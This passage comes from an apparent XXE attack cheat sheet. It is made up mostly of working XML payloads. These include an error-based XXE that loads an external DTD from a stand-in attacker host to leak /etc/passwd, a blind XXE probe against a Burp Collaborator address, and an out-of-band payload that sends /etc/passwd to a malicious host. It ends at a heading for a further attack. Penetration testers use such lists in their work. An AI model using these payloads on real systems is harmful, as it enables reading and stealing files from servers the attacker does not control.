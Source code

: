 
## Error Based XXE

**Payload to trigger the XXE**

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Contents of ext.dtd**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```


## Exploiting blind XXE to exfiltrate data out-of-band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```


Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)
